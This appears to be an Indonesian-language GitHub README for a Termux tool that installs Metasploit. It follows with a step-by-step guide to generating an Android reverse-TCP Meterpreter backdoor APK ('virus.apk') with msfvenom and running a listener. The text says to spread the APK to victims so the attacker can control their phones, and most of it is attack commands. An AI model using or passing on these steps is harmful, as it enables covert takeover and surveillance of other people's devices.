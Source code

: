 # MspoitZonaredXXII
By. Mr.HRC303





INSTALL & KERJA METASPLOIT :
$ pkg update && pkg upgrade
$ pkg install bundler
$ pkg install wget
$ pkg install ruby
$ pkg install git
$ git clone https://github.com/zonaredXXII/M-SploitXXII.git
$ cd M-SploitXXII
$ chmod +x M-SploitXXII.sh
$ ./M-SploitXXII.sh
$ msfconsole

CARA KERJANYA :
1. Pertama kita akan membuat payload/backdoor atau virus yang kita gunakan untuk dirimkan ke korban agar dapat akses ke HP nya.
Silahkan ketik: 
msfvenom -p android/meterpreter/reverse_tcp LHOST=IP Kamu LPORT=8080 -o /sdcard/virus.apk

2. Cara mengetahui IP address kita ketik : ifconfig

> msfconsole
> use exploit/multi/handler
> set payload android/meterpreter/reverse_tcp
> set lhost IP KAMU
> set lport 8080
> run
setelah itu,kita sebarkan payload yang sudah kita buat diawal tadi,agar diinstal di hp korban,anda juga bisa mencoba pada teman, saudara atau di hp sendiri.

jika ada korban yang menginstal dan menjalankan virus tersebut,kita sudah dapat mengendalikan hp korban dengan perintah-perintah yang terdapat pada Metasploit

Untuk mengetahui perintah yang dapat kita gunakan ketik help.
